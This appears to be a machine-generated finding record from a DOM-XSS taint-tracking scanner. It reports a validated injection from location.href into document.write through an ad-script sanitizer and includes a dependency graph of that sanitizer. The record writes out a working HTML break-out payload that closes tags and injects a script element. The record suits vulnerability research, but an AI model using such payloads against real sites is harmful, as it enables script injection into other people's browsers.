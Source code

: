 // Finding: 5cfd26d1-8740-4de0-8c45-fd9d54dc711e
// Finding.url: https://www.example395.com/programmes/frank-of-ireland##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('45641f7afc4b45b4a42063b17ed1ccc6')</script><!--/*
// Finding.parentloc: https://www.example395.com/programmes/frank-of-ireland##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('45641f7afc4b45b4a42063b17ed1ccc6')</script><!--/*
// Finding.domain: www.example395.com
// Finding.base_domain: example395.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: getTargetPath
// Sanitizer.location: https://static.example396.com/all4-ad-code/latest/adverts.js - getTargetPath:1:11639
// Finding.begin: 95
// Finding.end: 123
// Finding.original_uuid: f3fecbfa-7dc1-4900-b50a-c6e760d6d040
// Finding.TwentyFiveMillionFlowsId: 1319740964
// Finding.script: https://www.example395.com/programmes/frank-of-ireland##"></iframe></style></script></object></embed></textarea><script>taintfoxLog('45641f7afc4b45b4a42063b17ed1ccc6')</script><!--/*
// Finding.line: 387
// Exploit.uuid: 45641f7a-fc4b-45b4-a420-63b17ed1ccc6
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: script
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 24
// Exploit.end_taint_url: 52
// Exploit.replace_begin_url: 52
// Exploit.replace_end_url: 52
// Exploit.replace_begin_param: 123
// Exploit.replace_end_param: 123
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: true
// Issues.Known_sanitizer: false
// DepGraph.hash: -1640204059
// DepGraph.sanitizer_hash: -1898202251
// Removed NOP replaces 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="Lit: #"];
n3 [shape=box, label="Lit: /"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="str_replace_once"];
n6 [shape=box, label="RegExp: /https?:\/\//"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /\+/"];
n11 [shape=box, label="Lit: -"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[&]/"];
n15 [shape=box, label="Lit: -"];
n16 [shape=box, label="Var: x"];
n17 [shape=box, label="Var: x"];
n18 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n16 -> n9;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n17 -> n13;
n18 -> n17;
}